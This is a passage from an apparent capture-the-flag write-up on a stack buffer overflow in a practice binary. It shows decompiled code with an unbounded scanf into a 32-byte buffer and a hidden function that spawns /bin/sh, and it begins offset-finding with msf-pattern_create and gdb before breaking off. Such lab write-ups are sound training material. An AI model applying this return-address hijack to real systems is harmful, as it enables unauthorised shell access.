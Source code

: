 Going to  function we find that our input of unspecified size is taken to `local_28` variable that will store only `32` bytes of them and the rest occupy some memory in the stack overwriting the return address with `AAAA` whereby since it is not a valid memory address, the program breaks. 
```c
void general(void)

{
  int iVar1;
  char local_28 [32];
  
  puts(&DAT_004023aa);
  puts(&DAT_004023c0);
  puts(&DAT_004023e8);
  puts(&DAT_00402418);
  printf("------[pwner]: ");
  __isoc99_scanf(&DAT_0040245c,local_28);
  iVar1 = strcmp(local_28,"yes");
  if (iVar1 == 0) {
    puts(&DAT_00402463);
    main();
  }
  else {
    puts(&DAT_0040247f); 
  }
  return;
}
```

One of the functions caught my eye, `admins_only` which was executing /bin/sh. This is our target, if we get a chance to overwrite the return address of this function we get a shell and possibly read the flag. cool, now let's find the offset.
```bash
void admins_only(void)

{
  puts(&DAT_00403267);
  puts(&DAT_0040327c);
  system("/bin/sh");
  return;
}
```
`gdb` and `msf-pattern_create` will do this for us.

```bash
┌──(kali㉿prosec)-[~/hacks/pwn/pwn101/pwn103]
└─$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
```bash
(gdb) r
Starting program: /home/kali/hacks/pwn/pwn101/pwn103/pwn103.pwn103                                                                                                     
[Thread debugging using libthread_db enabled]                                                                                                                          
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".                                                                                             
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿                                                                                                                                               
⣿⣿⣿⡟⠁⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠈⢹⣿⣿⣿                                                                                                                                               
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿                                                                                                                                               
⣿⣿⣿⡇⠄⠄⠄⢠⣴⣾⣵⣶⣶⣾⣿⣦⡄⠄⠄⠄⢸⣿⣿⣿                                                                                                                                               
```